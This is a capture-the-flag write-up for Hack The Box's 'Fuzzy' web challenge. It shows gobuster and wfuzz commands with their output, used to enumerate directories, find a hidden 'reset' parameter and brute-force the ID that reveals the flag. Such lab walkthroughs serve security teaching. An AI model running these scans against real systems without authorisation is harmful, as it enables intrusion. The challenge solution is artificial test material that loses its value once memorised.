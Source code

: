 # Fuzzy (Hack The Box) (Web-app Challenge)

## 1. Access to the website

![](http://sarthaksaini.com/2019/June/web-app/fuzzy-htb/Selection_007.png)

## 2. List the directries

Let's list the directries by gobuster.
I used the wordlist in the Kali linux.

command:
```
gobuster dir -u http://docker.hackthebox.eu:42566/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm
```

result:
```
$ gobuster dir -u http://docker.hackthebox.eu:42566/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://docker.hackthebox.eu:42566/
[+] Threads      : 50
[+] Wordlist     : /usr/share/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : htm,php,txt,html
[+] Timeout      : 10s
=====================================================
2019/07/11 00:48:35 Starting gobuster
=====================================================
/index.html (Status: 200)
/css (Status: 301)
/js (Status: 301)
/api (Status: 301)
```
We can find interesting directory called `api`.

## 3. Check "api" directory

command:
```
gobuster dir -u http://docker.hackthebox.eu:42566/api/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm
```

result:
```
$ gobuster dir -u http://docker.hackthebox.eu:42566/api/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://docker.hackthebox.eu:42566/api/
[+] Threads      : 50
[+] Wordlist     : /usr/share/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : php,txt,html,htm
[+] Timeout      : 10s
=====================================================
2019/07/11 00:50:53 Starting gobuster
=====================================================
/index.html (Status: 200)
/action.php (Status: 200)
```

So, we foud the `action.php`.

## 4. What is on action.php?

![](http://sarthaksaini.com/2019/June/web-app/fuzzy-htb/Selection_008.png)

It requires paramter.

## 5. Finding the parameter

command:
```
wfuzz --hh=24 -c  -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?FUZZ=test
```

result:
```
$ wfuzz --hh=24 -c  -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?FUZZ=test 
********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://docker.hackthebox.eu:42566/api/action.php?FUZZ=test
Total requests: 20469

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                               
===================================================================

000015356:   200        0 L      5 W      27 Ch       "reset"                                                               

Total time: 399.9509
Processed Requests: 20469
Filtered Requests: 20468
Requests/sec.: 51.17877
```

We found our parameter which is `reset`.
Let's post reset with some random value.

## 6. Finsing the ID 

It resturns the message below.

![](http://sarthaksaini.com/2019/June/web-app/fuzzy-htb/Selection_009.png)

command:
```
wfuzz --hh=27 -c  -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?reset=FUZZ
```

result:
```
$ wfuzz --hh=27 -c  -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?reset=FUZZ
********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://docker.hackthebox.eu:42566/api/action.php?reset=FUZZ
Total requests: 20469

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                               
===================================================================

000000318:   200        0 L      10 W     74 Ch       "20"
```

### 7. You got the flag!

Access to the URL with the correct parameter.
```
URL:-http://docker.hackthebox.eu:42566/api/action.php?reset=20
```

